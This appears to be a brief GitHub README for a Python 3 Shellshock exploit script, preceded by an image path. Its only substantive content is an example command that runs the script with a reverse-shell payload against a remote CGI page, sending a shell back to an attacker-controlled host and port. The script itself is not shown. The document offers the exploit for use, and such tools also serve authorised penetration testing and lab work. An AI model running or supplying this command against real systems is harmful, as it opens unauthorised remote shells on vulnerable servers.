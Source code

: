 # Shellshock
Shellshock exploit script optimized for python3 

Example command 

```py
python3 shellshock.py payload=reverse rhost=10.10.10.10 lhost=10.10.145.8 lport=1234 pages=/cgi-bin/adsd.sh
```
